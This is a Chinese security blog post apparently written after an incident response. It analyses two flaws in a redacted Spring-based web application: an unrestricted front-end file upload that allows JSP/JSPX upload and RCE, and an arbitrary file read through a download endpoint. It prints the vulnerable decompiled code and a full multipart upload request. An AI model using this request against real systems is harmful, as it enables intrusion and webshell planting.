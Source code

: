 #  某源码前台RCE漏洞分析   
 哈拉少安全小队   2024-12-19 03:21  
  
 一、前言  
  
    起因是一位师傅找我，大致意思是他们被上了webshell然后源码给我让我从中找出来他们用的什么0day让我给（抢了）研究研究。  
  
首先分析日志的时候发现。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhWM5RSfYlVibaBlVeJibgem1qzGurkH4ae5BSLErvhvE7V7JLG8HMKNtj06OVVNDfFtfvKOffqHD0ew/640?wx_fmt=png&from=appmsg "")  
  
存在很多这种文件，所以找到一个文件第一次出现的地方一般下一个POST请求即为漏洞的路径。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhWM5RSfYlVibaBlVeJibgem1q3THxplHhnpsFfdxkG7P9E2Llk2R8fuPricEaEx1C7ZiaLFTnq1q0PfpA/640?wx_fmt=png&from=appmsg "")  
  
二、前台任意文件上传  
  
  
      
定位到了相关的路由之后载入相关的jadx-gui进行分析，  
前提已经进行了分析，知道了这个源码使用的是SPring 开发的一个项目，直接全局搜索相关的路由。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhWM5RSfYlVibaBlVeJibgem1qjfvXLkUmH0HIv4zq94PrVfvYYGK9LOiaDic8ahHQlbYkQI9bnwsPeUMA/640?wx_fmt=png&from=appmsg "")  
  
搜索到两个相关的路径。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhWM5RSfYlVibaBlVeJibgem1q8GvH8628fEc4nYFlj8z3icJl86JZ0fAxw2zVhSDFhibibwuLItNVB39Mw/640?wx_fmt=png&from=appmsg "")  
  
其中一个位于PlugEditorUpImgController当中，另外一个位于User当中。  
  
在plug当中查看相关代码。  
  
```
    @RequestMapping({"xxxxxxx.do"})
    @ResponseBody
    public Map<String, String> ueditorUploadImage(@RequestParam("upfile") CommonsMultipartFile upfile, HttpServletRequest request) throws IOException {
        Map<String, String> map = new HashMap<>();
        if (upfile != null && upfile.getSize() > 0) {
            String extName = FileUtil.getFileExtName(upfile.getOriginalFilename());
            String url = XlyEnvironment.getInstance().getRealpath();
            String path = XlyEnvironment.getInstance().getXlyUploadDirConfig().getImgUeditor();
            String fileName = new Date().getTime() + "." + extName;
            String filePath = path + "/" + fileName;
            FileUtil.uploadFile(upfile, url + filePath);
            map.put("state", "SUCCESS");
            map.put("title", fileName);
            map.put("original", upfile.getOriginalFilename());
            map.put("type", "." + extName);
            map.put("url", filePath);
            map.put("size", upfile.getSize() + "");
        } else {
            map.put("state", "FALSE");
        }
        return map;
    }
}
```  
  
  
可以看到代码没有进行任何过滤直接进行了相关的上传导致的RCE。  
  
进行文件上传拿到文件名称然后直接进行了拼接，上传目录位于  
  
/plug/upload/imgUeditor/文件名称  
  
但是在User当中。  
```
    @RequestMapping({"xxxxx.do"})
    @ResponseBody
    public Map<String, String> ueditorUploadImage(@RequestParam("upfile") CommonsMultipartFile commonsMultipartFile, HttpServletRequest httpServletRequest) throws IOException {
        Map<String, String> hashMap = new HashMap<>();
        if (commonsMultipartFile != null && commonsMultipartFile.getSize() > 0) {
            String fileExtName = FileUtil.getFileExtName(commonsMultipartFile.getOriginalFilename());
            if (!CommonFun.validatorFileExtName(new String[]{"jpg", "jpeg", "gif", "bmp", "png"}, fileExtName)) {
                hashMap.put("state", "FALSE");
            } else {
                String realpath = XlyEnvironment.getInstance().getRealpath();
                String str = "ue" + DateUtil.dateTostr(new Date(), "yyyyMMdd") + "_" + DateUtil.getTimeMillis(new Date()) + "." + fileExtName;
                String str2 = XlyEnvironment.getInstance().getXlyUploadDirConfig().getImgUeditor() + "/" + str;
                FileUtil.uploadFile(commonsMultipartFile, realpath + str2);
                hashMap.put("state", "SUCCESS");
                hashMap.put("title", str);
                hashMap.put("original", commonsMultipartFile.getOriginalFilename());
                hashMap.put("type", "." + fileExtName);
                hashMap.put("url", str2);
                hashMap.put("size", commonsMultipartFile.getSize() + "");
            }
        } else {
            hashMap.put("state", "FALSE");
        }
        return hashMap;
    }
}
```  
  
存在了相关的白名单校验，校验相关的文件后缀名，不允许jsp等文件进行上传。  
  
那么我们只要触发相关的plug当中即可。  
  
相关数据包如下：  
  
需要触发plug下的方法  
```
POST /xxxxxxxx HTTP/1.1
Host: xxxxxxx
Content-Length: 315
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarym8BqwxWphEraUWuE
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarym8BqwxWphEraUWuE
Content-Disposition: form-data; name="upfile"; filename="1.jspx"
Content-Type: application/octet-stream

asddasaasddasaasddasaasddasaasddasaasddasaasddasaasddasaasddasaasddasaasddasaasddasaasddasaasddasaasddasaasddasaasddasa
------WebKitFormBoundarym8BqwxWphEraUWuE--
```  
  
直接上传相关文件造成任意文件上传RCE漏洞。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhWM5RSfYlVibaBlVeJibgem1qw9IBibFgOZFzhPfNa9libicVTk9dBicJtMqz22mTft06BfDQWeZvKQyBAQ/640?wx_fmt=png&from=appmsg "")  
  
直接进行了前台的文件上传。  
  
直接访问  
http://ip/x  
xxxxx/  
文件名称  
  
即可。  
  
  
三、任意文件读取漏洞  
  
在审计期间还找到了一个相关的任意文件读取漏洞，我们尝试进行分析  
  
相关payload为  
  
定位相关漏洞路由  
  
相关代码如下：  
```
    @RequestMapping({"/xxxxxxx.do"})
    public void plugFileDownAnnex_out(HttpServletRequest request, HttpServletResponse response) throws Exception {
        response.setContentType("application/msexcel");
        response.setHeader("Cache-Control", "no-cache");
        LoginUserSession.getLoginUserModel(request);
        String filePathName = request.getParameter("filePathName");
        if (filePathName.isEmpty()) {
            return;
        }
        String filePath = XlyEnvironment.getInstance().getRealpath() + filePathName;
        File file = new File(filePath);
        if (!file.exists()) {
            return;
        }
        String extName = FileUtil.getFileExtName(filePathName);
        response.setHeader("Content-Disposition", "attachment;filename = 1." + extName);
        OutputStream out = response.getOutputStream();
        try {
            try {
                InputStream in = new FileInputStream(filePath);
                byte[] buffer = new byte[1024];
                while (true) {
                    int len = in.read(buffer);
                    if (len > 0) {
                        out.write(buffer, 0, len);
                    } else {
                        in.close();
                        out.close();
                        return;
                    }
                }
            } catch (IOException e) {
                logger.error("下载附件时出错", e.getMessage());
                out.close();
            }
        } catch (Throwable th) {
            out.close();
            throw th;
        }
    }

```  
  
可以看出来使用IO流进行读取，直接就可以进行相关文件的读取。  
  
  
四、完结  
  
  
  
  
  
  
  
  
  
  
